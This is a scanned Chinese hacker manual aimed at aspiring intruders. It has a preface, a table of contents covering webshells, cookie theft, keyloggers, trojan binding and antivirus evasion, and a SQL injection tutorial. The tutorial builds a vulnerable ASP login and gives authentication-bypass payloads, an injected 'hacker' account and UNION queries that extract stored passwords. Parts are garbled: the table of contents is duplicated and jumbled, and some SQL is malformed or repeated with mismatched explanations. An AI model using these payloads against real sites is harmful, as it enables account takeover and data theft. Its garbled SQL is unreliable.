# 资深黑客渗透黑幕

馆藏Hack内幕吹响集结号

进攻击由数据库撕开缺口

见招拆招令其系统不堪设

经典手法齐上阵突破核[模糊看不清]

以对手视角看网络安全

抽丝剥茧的真实案例剖析

历数渗透技术十八般绝活

## PPB

| 典Tools精选 |
| --- |

# 安全专家渗透内幕答疑

[模糊看不清]客手册编辑推荐最佳黑客优秀读物

Hack世界的是非纷争

攻城拔寨的Hack利器

匪夷所思的攻击套路

www.nohack.cn





¥39元 附赠光盘


ISBN 978-7-900452-68-9

9 787900 452689

# 浅探黑客渗透的思路

彭超 PPB

非安全·黑客手册 出品

# 作者简介

**网名：PPB**

**姓名：彭超**

国内资深职业黑客，曾在“黑客在线”、“黑客防线”等黑客技术平台从事网络安全技术咨询工作，实践过大量友情安全检测及渗透测试活动，在从事技术咨询及渗透测试中积累了丰富的经验和敏锐的思路。

> 本书是作者这些年的心得总结，他将其中的一些常见技术和思路，以及学习网络安全技术中需要掌握的必备技术，进行了完整展示，可以说，这是一本对学习网络安全技术感兴趣的朋友们的随身宝典。
>
> 通过此书的学习，大家可以对网络渗透技术有一个完整的立体概貌，不会像一些黑客教学网站的那些“xx 会员”，学得如雾里看花、盲人摸象，浪费了时间不说，还消耗了价格不菲的学费和有限的精力。
>
> 本书用最经典（精彩+经典）的案例让读者掌握最经典的技术，这是作者写作本书的立题宗旨，并希望此书能成为渴望学习网络安全技术的朋友们学习道路上的良师益友。

出 品 人：非安全

本书作者：彭超 PPB

编 辑：Python LCX 空气 留浪天涯 眼镜猴

特约编辑：风飘雨 小迷 XApache 张宇

平面规划：陈黎黎

网 站：www.nohack.cn

网站编辑：空气

版权申明：图文版权所有，未经同意，不得转载。

投稿信箱：nohack@21cn.com

邮购查询：hope_wym@sina.com

光盘信箱：CD@nohack.cn



彭超 PPB

经过四个多月的努力，这本书终于完成了。书稿完成的那天，我去餐馆点了桌菜大吃一顿，以犒劳自己，并滋补一下因几乎每天熬夜写稿快要垮掉的身体。书中是我这几年来从事网络安全所得经验的小小总结，相信会给渴望了解网络安全技术的朋友们一些帮助。

从几年前因为偶然的机会和可笑的理由接触到网络安全至今，一直走过来的路并不平顺。回顾自己几年来走过的路，曾经满怀疑惑、曾经幼稚无知、曾经劳而无果、曾经大起大落……当年和我一起学习的QQ群里面数百个朋友没有一个还在了；在一年前偶然相遇曾经初学时常向其请教问题的“高手”，谈话中他以无比惊诧的声音说：“不会吧？你还在玩这个？还当成职业？”

# ——是的，我还在。

书中介绍的技术好像是冷冰冰的，并不像在这份前言中写得这般自我。书中记载的是经过思考、理解、消化，并尝试取得的成功。斗胆用个比喻——如同枯燥的战斗记录背后所代表的那一场场惊心动魄。

书中所载是曾经的往事，而现在是把这些“故事”讲给读者听。书中的某些技术可能让您觉得一时还无法理解，不妨换个角度去理解浸透这本书背后的绝对真理，但被太多人说得似乎有点恶俗的两个字——坚持，那么你肯定会看懂那些技术，并且有一天你会拥有自己的故事。

希望读者能以正确的心态来对待网络安全技术，它不是你来炫耀留名的工具，真正的高手深深藏在幕后，出现在前台闹得最欢的只是跳梁小丑，以简单的技术“出名”的想法更是可笑。

健康的心态应该是把网络安全技术作为养成善于学习这一好习惯的切入点，是在成年后走出校园继续有一副思考的头脑的智力。而测试和渗透的成功，只是你水平的金石，鼓励你继续往领域探索的动力。重复已经掌握的知识去证明自己，这种行为是最聊的。学习的乐趣不在于你获得了多少知识，更在于你发现了多少知识。真诚期待读者以本书为起点，满足于已经掌握的知识，不断的发散和完善自己的知识，并一次次把掌握的知识抛到脑后，迎接新的挑战。相信你会拥有一切亲爱的读者们，由本书出发，开始挑战吧！

后记：感谢母亲，在多年前家里买了电脑使我上网，否则我不会的一切。

## 第一章 数据库入侵相关技术

- SQL注入是怎么回事？

- 常用的数据库有几种？存在漏洞吗？

- 如何灵活的注入点？

- ACCESS注入点如何利用？

- 如何数据库插入木马得到 Webshell？

- 如果过滤了“AND”，还能注入？

- 什么叫联合查询？

- MySQL注入点如何利用？

- MySQL注入能不能直接导出 Webshell？

- 10 如何使用 MSSQL查询器？

- MSSQL 有几种对应权限？

- 12 怎样通过注入点执行系统命令？

- 13 我有一个SA权限点，各种注入点执行命令的方法试过了，但无法成功，这是为什么？

- 14 手工 MSSQL数据库注入如何获取表和字段内容？

- 15 如何备份数据库得到 Webshell？

- 16 如何通过注入点备份一个 Webshell？

- 17 如何进行反弹注入？

- 18 如何通过 MSSQL获得相关信息？

- 19 搜索型注入应该如何查找及利用？

## 第二章 常见问题答疑解惑

- 1 灰鸽子提到要使用WEB空间，请问什么是空间？收费吗？怎样才能拥有和使用空间？

- 2 我在内网中，电脑会被“黑”吗？

- 3 有什么方法能在只知道一个电脑IP的情况下，对它进行入侵呢？

- 4 黑客文章里常说的“擦屁股”、“清除痕迹”是怎么回事？

- 5 据说黑客有手段能刷QB和钻石服务及游戏点卡之类的，这是真的吗？如何？

- 6 什么是 Webshell？它是做什么的？

- 7 要如何开始学习黑客技术呢？

- 8 什么是`CMD`？如何使用它？

- 9 什么是 DDoS攻击？

- 10 什么是域名？

- 11 什么是IPC连接？

- 12 黑客活动违法吗？怎样进行黑技术的实践呢？

- 13 什么是脚本？

- 14 经常提到的“权限”是什么？

- 15 为什么有的网站程序是PHP后缀，有的是



ASP后缀，它们有什么不同？

- 16 什么是堆马？

- 17 AD路由器中的桥接模式和路由模式是怎么回事？有什么区别？

- 18 Web木马、网页马、远程控制木马、后门有什么区别？

- 19 什么是ARP欺骗？

- 20 常见的服务与端口有哪些？

- 21 键盘记录工具的使用功能相同？

- 22 哪些入侵中最常用的`CMD`？

## 第三章 黑客入侵常用技巧

- 1 如何制作“万能捆”？

- 2 怎么通过社会工程学手段猜重要信息？

- 3 怎么用`Editor`入侵？

- 4 怎么进行URL欺骗？

- 5 怎么利用程序快捷方式插入木马？

- 6 我得到了网站的BBS地址，在主上也得到了一个点，怎么利用？

- 7 如果网站安装了系统怎么突破？

- 8 怎么能时刻获得网站的实际地址？

- 9 没有办法用`Nmap`工具跑注入的点？

- 10 如何操作Linux主机？

- 11 我通过默认密码进入了一个网站的后台，下面做什么呢？

- 12 什么是抓包上传？

- 13 所谓的嗅探是怎么回事？

- 14 如何破解邮箱？

- 15 如何进行反向连接？

- 16 怎样打开3389终端服务？

- 17 什么是图片木马？

- 18 什么是本地提交？

- 19 如何做一名GOOGLE黑客？

- 20 如何进行注入？

- 21 如何后台备份得到一个 Webshell？

- 22 一个经典的COOKIE欺骗进入后台的例子

- 23 怎么使用一句话木马？

- 24 如何在URL中跳转目录？

- 25 命令行下如何设置计算机网络？

- 26 如何使用命令行添加服务？

- 27 如何盗取COOKIE？

- 28 能否利用Windows相关工具入侵？

- 29 如何设置VPN？

- 30 怎么利用MDB数据库来隐藏ASP木马？

- 31 如何利用ServU权限？

- 32 如何利用PCANYWHERE提升？

## 第四章 安全性能分析及处理

- 1 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是中木马？

- 2 我的QQ号被盗了，有没有什么办法能找回？

- 3 我游戏账号总是被盗，请问怎么回事？我该怎样防止被盗呢？

- 4 我中了木马，应该怎么清除呢？

- 5 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？

- 6 什么是组策略？它有什么作用？

- 7 听说有手工查杀木马的方法，是如何操作的？

- 8 网站被入侵后如何清除黑客留下的后门？

- 9 怎样使用综合类安全防护工具？

- 10 服务器如何防范 Webshell？

- 11 没有安装防火墙和杀毒软件，如何防护安全？

- 12 黑客是怎么让我的？

## 第五章 入侵过程常见问题

- 1 找到了ServU，为什么不能提升？

- 2 怎么突破外部？

- 3 我的 Webshell总是被删除，有没有更隐藏的Webshell的方法？

- 4 为什么通过小马上传总是失败？

- 5 没有SA权限注入点，无法备份Webshell，怎么办？

- 6 为什么肉鸡运行远程桌面，可是无法连接到对方的桌面？

- 7 我使用攻击者连接了一台有漏洞的电脑，为什么复制文件时出错？

- 8 怎样防止自己的木马被杀？

- 9 我用3389登录对方的桌面后，他发现吗？我操作电脑用到键盘控制吗？

- 10 所谓的“穿越防火墙”技术是如何实现的？

- 11 为什么在Windows3上传总是失败？

- 12 下载得到的数据库却没有密码，怎么打开？

- 13 暴出密码后却是加密的，怎么得到加密的明文？

- 14 如果过滤了单引号如何注入？

- 15 如果`XP_CMD`被删除了，无法执行命令怎么办？

- 16 手把手教你制作个人的网页

## 第六章 黑客工具实战技巧

- 1 黑客常用的工具，能推荐几种？

- 2 怎样看到我QQ好友的IP甚至是具体位置呢？

- 3 我使用端口扫描器扫描了很多段，为什么一个端口都没有扫到？

- 4 我在外网中，为什么鸽子也不能上线？

- 5 怎么在我的ADSL路由器里设置端口映射？

- 6 怎么样给软件脱壳或加壳？

- 7 如何使用溢出工具包`metasploit`？

- 8 如何安装虚拟机软件？

- 9 在修改木马防杀操作中如何定位特征码？

- 10 怎么把木马和其它程序捆绑？

- 11 如何进行跳转修改法防杀？

- 12 如何使用X-Scan扫描器？

- 13 怎么让没有代理功能的软件也能使用代理？

- 14 如何用“代理超人”扫描代理？ ......... 265

- 15 如何使用`radmin`？ ........................ 267

- 16 如何使用啊D自动攻击器？ ............. 270

- 17 我不会使用PCSHARE，能教教我吗？ ... 273

- 18 如何使用FXP方便的管理自己的WEB空间？ ........................ 275

- 19 怎么使用端口转发工具`LCX`？ ........... 279

- 20 如何使用键盘记录器？ ..................... 280

- 21 如何使用C/S木马？ .......................... 282

- 22 网络瑞士军刀`NC`的多种使用方法 ...... 287

## 光盘向导

### 第一章 数据库入侵相关技术

- 4、A4、ACCESS 注入点如何利用？

- ASCII 速查字符转换工具

- 9、MYSQL 注入能不能直接导出 WEBSHELL？

- 多功能编码转换工具

- 11、MSSQL2000 有哪几种对应权限？

- NBSI

- 15、如何备份数据库得到一个 WEBSHELL？

- SQL 注入学习帮助小工具——16 进制转换工具

### 第二章 常见问题答疑解

- 2、我在内网中，电脑会被“黑”吗？

- 流光 5

- 4、黑客文章里常说的“擦屁股”、“清除痕迹”是怎么回事？

- IIS 日志清除工具

- SQLogClear[SQL 日志清除]

### 第三章 黑客入侵常用技巧

- 1、如何制作“万能捆绑”？

- winrar

- 4、怎么进行 URL 欺骗？

- 相关代码

- 7、如果网站安装有信息检测系统怎么突破？

- 相关代码

- 8、怎么能时刻获得网站的数据库实际地址？

- 相关代码

- 9、有没有办法能用 NBSI 等工具跑 COOKIE 注入的节点？

- 注入中转站

- 12、什么是抓包上传？

- WSockExpert 抓包

- `NC`

- WINHEX

- 13、所谓的嗅探是怎么回事？

- XSNIFF 嗅探工具

- 14、如何破解邮箱？

- 溯雪

- 16、怎样打开 3389 远程终端服务？

- 开 3389 代码

- 20、如何进行旁注？

- DOMAIN

- 26、如何使用命令行添加服务？

- 添加服务测试代码

- 27、如何盗取 COOKIE？

- 盗 COOKIE 接收端 ASP 和 PHP 代码

### 第四章 安全性能分析及处理

- 1、我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？

- windows 清理助手

- 7、听说有手工查杀木马的方法，是如何操作的？

- 注册表及系统自启动查看器

- 8、网站被入侵后如何清除黑客留下的后门？

- 雷克图站长助手

- 9、怎样使用综合类安全防护工具？

- 木马清道夫

### 第五章 入侵过程常见问题

- 1、我找到了 Serv-U，为什么不能提升权限？

- Serv-U 提权综合工具

- 8、怎样防止自己的木马被查杀呢？

- 多种常见加壳工具：

- ASPack 加壳

- MaskPE

- PECompact

- petite2.3 GUI

- UPX 压缩和解压器

- 仙剑

- [MSLRH]v0.31a

- Hying'sPE-Armor0.75

- 网络休闲网专用加壳程序 F1 修改版

- PEcrypt4

- 11、为什么在WINDOWS2003下上传总是失败？

- 突破上传200K限制

- 文件切割合并器

### 第六章 黑客工具实战技巧

- 1、黑客常用的有哪些工具，能推荐几种吗？

文中提到的几种工具：

- arpsniffer

- ServU 提权

- SuperScanV4.0-RHC

- nc

- UltraEdit-32

- 2、怎样看到我QQ好友的IP地址甚至是具体位置呢？

- 传美版QQ2008

- 7、如何使用溢出工具包metasploit？

- 溢出工具包metasploit3.0

- 8、如何安装虚拟机软件？

- Virtual PC

- VMware Workstation

- 9、在修改木马防杀操作中如何定位特征码？

- 特征码定位工具CCL

- 10、怎么把木马和其它程序捆绑？

- 超级捆绑机

- 11、如何进行跳转修改法防杀？

- PEDITOR

- ollybg

- 12、如何使用X-Scan扫描器？

- X-Scan-v3.3中文版

- 13、怎么让没有代理功能的软件也能使用代理？

- SKSCOCK

- 14、如何用“代理超人”扫描代理？

- 代理超人

- 15、如何使用radmin？

- `radmin`中文版

- 16、如何使用啊D自动攻击器？

- 啊D 自动攻击器

- 17、我不会使用PCSHARE，能教教我吗？

- pcshare木马

- 18、如何使用FXP方便的管理自己的WEB空间？

- FXP中文版

- 19、怎么使用端口转发工具LCX？

- `LCX`

- 20、如何使用键盘记录器？

- 简易键盘记录器

- 21、如何使用C/S木马？

- 雷克图C/S木马

- 22、网络瑞士军刀NC的多种使用方法

- 完整版`NC`













## 第一章 数据库入侵技术（后续部分）

- MSSQL 注入能直接写出木马吗？

- 如何灵活的构造注入？

- 如何寻找注入点备份一个 WebShell？

- 搜索注入点和利用？

- 常见的数据库都存在漏洞？

- ACCESS 注入点利用？

- MSSQL 和 ACCESS 有哪对应的权限？

- 如何通过 SQL 获取服务器信息？

- 如何数据库插入的值？

- 如果过滤了“AND”，还能注入？

- 什么是联合查询？

- 手工测试注入获取表中的内容？

- 怎样通过注入执行系统命令？

- 修改注入点利用？

- 有个 SA 权限注入点，各种通过注入执行的方法都试过了，但无成功，为什么？

- SQL 注入得到一个 WebShell？

- 1、SQL 注入是怎么回事？

- 2、常用的数据库有哪几种？

- 3、灵活的注入点？

- 4、ACCESS 注入点利用？

- 5、向数据库插入木马？

- 6、如果过滤了“AND =”，还能注入？

- 7、什么联合查询？

- 8、MYSQL 注入点利用？


- 9、MYSQL 注入能不能直接导出 WebShell？
- 10、如何使用 SQL 查询器？
- 11、MSSQL 有哪对应的权限？
- 12、怎样通过注入执行系统命令？
- 13、注入点，各种通过注入执行的方法都试过了，但无法成功，为什么？
- 14、手工 MSSQL 注入获取表中的内容？
- 15、如何备份得到一个 WebShell？
- 16、如何通过注入得到一个 WebShell？
- 17、如何进行注入？
- 18、如何通过 SQL 服务器相关情况？
- 19、搜索型注入如何利用？

# SQL 注入是怎么回事？

在现的网络中，许多网站都采用数据库来存储资料，而在各类型的数据库中，ACCESS 数据库最为流行。现在的网站入侵手法针对这种数据库，被称为 SQL Injection（数据库注入）。

原理：一般程序设计员在访问数据库时，往往是 asp、php 等脚本结合用户输入组成 SQL 语句，然后再传递给数据库执行。由于没有检测，注入漏洞就出现在这里。下面做一个示范，希望能读者对 SQL Injection 的入侵方式有个认识。先建立一个网站登录页面，如下：

```sql
CREATE TABLE tblUser (
    UserID int IDENTITY (1, 1) NOT NULL,
    UserName nvarchar (50) NOT NULL,
    Password nvarchar (50) NOT NULL,
    Pri tinyint NULL CONSTRAINT DF_tblUser_Pri DEFAULT (0),
    CONSTRAINT PK_tblUser PRIMARY KEY CLUSTERED (UserID)
)
```

我们在表中先插入数据，如插入了用户 admin/pass 和用户 Byron/Byron 两组数据。

```sql
INSERT tblUser(UserName,Password,Pri) VALUES('Admin','AdminPass',10)
INSERT tblUser(UserName,Password,Pri) VALUES('nohack','nohackPass',10)
```

登录页面的代码如下：

```asp
<%
If Request("UserName")<>"" And Request("Pass")<>"" Then
Dim cnn,rec,strSQL
Set cnn=Server.CreateObject("ADODB.Connection")
With cnn
.ConnectionString=Application("Conn")
.Open
	'利用登录输入的资料来组合SQL语法
	strSQL="SELECT * FROM tblUser WHERE UserName='" & _
	Request("UserName") & "' AND Password='" & Request("Pass") & "'"
	'直接交给SQL Server执行，没有经过检测，注入漏洞就出现在这里
	Set rec=.Execute(strSQL)
End With
If NOT rec.EOF Then
	Session("UserName")=Request("UserName")
	Response.Write "登录成功 " & Request("UserName")
Else
	Response.Write "您的账号/密码错误"
End If
Else
%>
<Form action="login.asp">
用户名：<Input Name="UserName"><P>
密码：<Input Name="Pass">
<P>
<Input type="submit" Value="确定">
</Form>
<%
End If
%>
```

以上代码保存成ASP网页，通过浏览后可以利用ASP代码来组合使用者账号、密码的SQL查询语法，逻辑相当简单。如数据库中存在符合的账号、密码记录，则回传的`Recordset`的`EOF`属性是`False`，该使用者就算正确登录。针对这种网页，我们以下就开始利用 SQL Injection 的技巧来“黑”这个网站吧！

在需要输入账号的地方输入`Admin' --`，而密码栏随便乱输，这对于会被执行的整句SQL没有什么关系，如图所示。

我们根据登录页面代码中的内容构建出提交到SQL的语句，将会发现实际传递给SQL Server的语法是：

```sql
SELECT * FROM tblUser WHERE UserName='admin'--' AND Password='asdf'
```



关键是原先的AND子句被“--”标识成了说明，这样SQL Server仅仅执行：

```sql
SELECT * FROM tblUser WHERE UserName='admin'
```

自然，如果有该用户存在，则查询回记录的所有字段，回的RecordsetEOF属性为False，就算登录成功。若没有已知的账号，可以在用户名输入框中输入`' or 1--`，SQL Server接收的整句变成：

```sql
SELECT * FROM tblUser WHERE UserName='' or 1-- AND Password='asdf'
```

因为输入的是`' or 1--`，不管之前的条件是什么，只要某个条件为真，整个查询都为真，回传的`Recordset`包含了全部记录，也就是“万能登录”的由来。

## 利用错误注入

为了方便ASP开发人员可以顺利查找，从错误信息中寻找感兴趣的东西。

- 错误信息显示：在位置输入`' GROUP BY 1--`。
- SQL Server语句变成：

```sql
SELECT * FROM tblUser WHERE UserName=' ' GROUP BY UserID,Password,Fn HAVING 1--
```

- 错误信息显示：数据表名称是`tblUser`。
- SQL语句变成：

```sql
SELECT * FROM tblUser WHERE UserName=' ' GROUP BY UserID,Password,Fn HAVING 1--
```

- 加入自定义的用户到数据库中：

```sql
INSERT INTO tblUser.Values('hacker','hacker',10)--
```

## 获取用户的账号密码

利用这个技巧，还可以进一步获取账号和密码，例如用以下查询：

```sql
' UNION SELECT UserName,1,1 FROM tblUser WHERE UserName>'a'--
```

出现IIS返回：`nvarchar'admin'数值类别为INT的资料行`。因为上述查询回传的记录“Admin”是nvarchar格式，通常union到原先int数据位，就出现了错误。由错误信息可以得知有一个“Admin”的账号。

```sql
' UNION SELECT Password,1,1 FROM tblUser WHERE UserName='admin'--
```


之后再继续下列语句获得其他人的账号密码：

```sql
' UNION SELECT UserName,1,1 FROM tblUser WHERE UserName>'admin'--
```

